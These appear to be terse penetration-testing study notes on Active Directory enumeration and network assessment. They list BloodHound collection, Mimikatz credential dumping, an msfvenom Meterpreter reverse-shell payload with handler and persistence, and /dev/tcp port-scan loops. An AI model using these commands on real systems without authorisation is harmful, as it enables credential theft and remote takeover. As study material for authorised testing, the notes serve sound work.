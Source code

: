    - [help] get-command
   - get-help Get-NetComputer -examples
   - Get-NetGroupMember
   - Get-NetGPO  / Invoke-ShareFinder = shares

### bloodhound
- graphical interface
- In the target:
  - Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
- in the attacker
  - neo4j console => database
  - bloodhound
    - import looted files

### mimikatz
- dumping credentials   
- mimikatz.exe
  - privilege::debug ==> Check if we are admin
    -lsadump::lsa /patch 

### maintaining access
- create reverse shell
  - msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
  - use exploit/multi/handler
  - use exploit/windows/local/persistence

# Network assessment
- Requirements: 
  - Number of machines
  - services running
  - Publici interface?
  - git server ?
  - public IP

-  No dns if web: add to etc/hosts
-  OS: mostly on the server than guessing from nmap
-  get shell if possible + stabilize the shell
-  get ssh keys

-  using pre installed tools
   -  arp -a => arp neighbour cache
   -  /etc/hosts
   -  /etc/resolv.conf
   -  ifconfig - nmcli dev show / ipconfig /all
   -  port scanning
      -  hosts: for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
      -  ports: for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done

## Steps
- Enumerate
- Find everything that there is outside and inside
- find services running, find cve for these services
- stablish stable connection (pivoting): reverse shell, proxy, ssh, port forwarding
- get ssh key if they are available
